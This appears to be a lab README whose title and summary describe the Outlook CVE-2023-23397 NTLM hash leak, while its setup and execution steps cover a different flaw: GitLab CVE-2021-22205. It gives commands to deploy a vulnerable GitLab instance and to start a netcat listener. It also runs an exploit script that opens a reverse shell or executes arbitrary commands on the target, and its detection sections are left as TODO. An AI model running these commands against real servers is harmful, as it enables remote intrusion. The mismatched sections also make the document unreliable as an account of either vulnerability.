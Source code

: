 # Microsoft Outlook Client Appointment Reminder Alarm Sound - Privilege Escalation Vulnerability (CVE-2023-23397)
## Summary

CVE-2023-23397 affects all versions of the Microsoft Outlook desktop applications on Windows systems. It is important to note that this vulnerability does not affect Outlook web app or Microsoft 365. The attacker can obtain a user's credentials and potentially escalate privileges by directing the Outlook client to ***search for the appointment reminder alarm sound on a specified UNC path, thereby leaking Net-NTLMv2 hashes*** when the victim machine authenticates to the server residing on the said UNC path. 

## Prerequisites

The prerequisite for the setup is to have a Windows Active Directory environment set up with an Exchange server, and host workstation(s) with Microsoft Outlook client software installed. 



## Setup

First, clone or grab the `gitlab-setup.sh` file from [this repository.](https://github.com/NukingDragons/gitlab-setup)

To perform an online install of the vulnerable Gitlab instance, run the following command (Set the hostname to your preference, or to the IP of the interface you wish to host this on):
```bash
./gitlab-setup.sh -v 13.8.6-ce.0 -H gitlab.example.com
```

By default, the docker will start automatically on the specified hostname.

To perform an offline installation, first run the following command on a machine that *DOES* have an internet connection:

```bash
./gitlab-setup.sh -v 13.8.6-ce.0 -e --fetch-only
```

Then, move *BOTH* the `gitlab-setup.sh` file and the resulting `gitlab-ce-13.8.6-ce.0.docker` file to the offline machine.

Once the files have been moved over, install and start the Gitlab instance by running the following command on the offline machine:

```bash
./gitlab-setup.sh -i /path/to/gitlab-ce.13.8.6-ce.0.docker -H gitlab.example.com
```

Then, browse to the page given the specific hostname, and set the administrator password. Once it's been set, the instance will be fully functional. Be sure to log in and adjust any settings, add users, and/or add any repositories that are needed.

## Execution

### Method 1 - Reverse Shell

To exploit a vulnerable instance of Gitlab, first clone [this repository](https://github.com/NukingDragons/gitlab-cve-2021-22205), or download the bash script.

First, start a local netcat listener on your port of choice:

```bash
nc -lvnp 1337
```

Then, to obtain a shell, simply run the following command:

```bash
./cve-2021-22205.sh -t http://gitlab.example.com -i <your interface IP> -p <your specified port>
```

Alternatively, the script will deduce the IP for you and the port will be assumed to be 1337 if unspecified.

![image](./images/Pasted%20image%2020231101113528.png)

#### Indicators of Compromise

TODO

### Method 2 - Any Command

To exploit a vulnerable instance of Gitlab, first clone [this repository](https://github.com/NukingDragons/gitlab-cve-2021-22205), or download the bash script.

To run a custom command against the target, run the following command:

```bash
./cve-2021-22205.sh -t http://gitlab.example.com -c "<your command here>"
```

#### Indicators of Compromise

TODO